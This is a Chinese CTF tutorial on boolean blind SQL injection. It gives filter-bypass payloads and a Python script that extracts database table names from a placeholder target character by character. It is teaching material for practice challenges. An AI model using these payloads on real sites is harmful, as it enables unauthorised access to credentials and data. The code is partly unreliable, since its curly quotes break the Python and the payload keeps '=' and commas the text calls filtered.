# CTF解题：09：2-8：布尔盲注CTF题目解决 🎯



在本节课中，我们将学习如何利用Python脚本自动化解决布尔盲注类型的CTF题目。布尔盲注是一种SQL注入技术，其特点是无法直接看到数据库的查询结果，只能通过页面返回的“真”（如success）或“假”（如fail）状态来推断信息。手动进行这种推断极其耗时，因此我们将重点学习如何编写脚本来自动化这个过程。

## 确定注入点与绕过过滤 🔍


上一节我们介绍了布尔盲注的基本概念，本节中我们来看看如何在实际题目中确定注入点并绕过常见的过滤规则。

首先，我们需要找到存在SQL注入漏洞的参数。通常，我们会使用类似 `and 1=1` 和 `and 1=2` 的语句进行测试。如果页面返回不同，则可能存在注入点。




然而，在本题中，Web应用程序过滤了 `and` 关键字。因此，我们需要使用绕过方法。在MySQL中，可以使用 `&&` 符号来替代 `and`。由于 `&` 在URL中具有特殊含义，我们需要对其进行URL编码，即 `%26`。

以下是测试步骤：
1.  构造Payload：`id=1 %26%26 1`（真条件）和 `id=1 %26%26 0`（假条件）。
2.  观察页面返回。如果两个Payload返回了不同的结果（例如一个为“success”，一个为“fail”），则证明该参数存在布尔盲注漏洞，并且我们的绕过方法有效。

我们也可以使用Burp Suite等工具来拦截和重放请求，更方便地修改和测试Payload。


## 构造核心注入语句 🛠️



在确认注入点后，我们需要构造出能够用于逐位提取数据的核心SQL注入语句。这是编写自动化脚本的基础。




由于题目还可能过滤了空格、`substr`、`=` 等字符，我们需要进一步绕过：
*   **空格**：可以使用注释符 `/**/` 绕过。
*   **`substr`函数**：可以使用功能类似的 `mid` 函数替代。
*   **逗号**：在 `limit` 子句中，可以使用 `limit 1 offset 0` 的格式绕过逗号。在 `mid` 函数中，可以使用 `from 1 for 1` 的格式。
*   **等号**：可以使用 `in()` 操作符替代。

综合以上绕过技巧，我们可以构造出用于获取数据库表名的核心Payload模板：
```sql
-1/**/||/**/(ascii(mid((select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/1/**/offset/**/0),1,1)))/**/in/**/(97)
```
这个语句的含义是：查询当前数据库的第一个表名，并判断其第一个字符的ASCII码是否在 `(97)` 中（即是否为字母 ‘a’）。通过循环改变 `offset`（获取第几个表）、`mid` 函数中的起始位置（获取第几个字符）和 `in()` 中的ASCII码值，我们就能逐步推断出所有表名。





## 编写Python自动化脚本 🤖

有了核心注入语句，我们就可以编写Python脚本来自动化整个猜解过程。脚本的逻辑是模拟我们手工测试的过程，但由计算机高速完成。

以下是编写脚本的主要步骤：

首先，我们需要定义可能出现的字符集（如数字、大小写字母）和目标URL。

接下来，脚本的核心是三层循环结构：
1.  **第一层循环**：遍历不同的数据库表（通过改变 `offset` 值）。
2.  **第二层循环**：遍历表中每个字段名的每一个字符位置（假设字段名长度不超过某个值，如50）。
3.  **第三层循环**：遍历字符集，用每个字符去匹配当前位置。

在每次请求中，脚本会根据循环变量动态生成Payload，发送HTTP请求，并根据响应内容的长度或特定关键词（如“success”）来判断猜解是否正确。如果正确，则记录该字符，并进入下一个位置的猜解。

以下是获取表名的代码逻辑示例：
```python
import requests



url = “http://target.com/page.php”
chars = “abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_”



for table_index in range(0, 2): # 假设猜解前两个表
    table_name = “”
    for position in range(1, 50): # 假设表名长度小于50
        for char in chars:
            # 动态构造Payload，替换offset、字符位置和猜测的字符
            payload = f”-1/**/||/**/(ascii(mid((select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/1/**/offset/**/{table_index}),{position},1)))/**/in/**/({ord(char)})”
            params = {‘id’: payload}
            resp = requests.get(url, params=params)
            if “success” in resp.text: # 根据实际情况判断
                table_name += char
                print(f”找到字符: {char}， 当前表名: {table_name}”)
                break
    print(f”第{table_index+1}个表名: {table_name}”)
```
获取字段名和数据的脚本逻辑与此类似，只需修改SQL查询语句即可，例如将 `select table_name…` 改为 `select column_name from information_schema.columns where table_name=’admin’…`。




在脚本运行过程中，可以通过打印当前猜解的Payload或进度来进行调试。最终，脚本会输出数据库的表名、字段名和具体数据（如用户名和密码）。



## 总结 📝

本节课中我们一起学习了布尔盲注CTF题目的自动化解决方法。







我们首先学习了如何**确定注入点并绕过过滤**，使用 `%26%26` 替代被过滤的 `and`。接着，我们掌握了**构造核心注入语句**的技巧，通过组合使用 `mid`、`in()`、`limit offset` 和注释符来绕过空格、逗号、等号等过滤。最后，我们重点讲解了**编写Python自动化脚本**的完整思路，通过三层循环结构（表->字符位置->字符集）来高效地猜解出数据库信息。







通过本章节的学习，你需要深入理解布尔盲注的原理，并能够独立编写出用于自动化利用的脚本，从而快速解决相关CTF题目。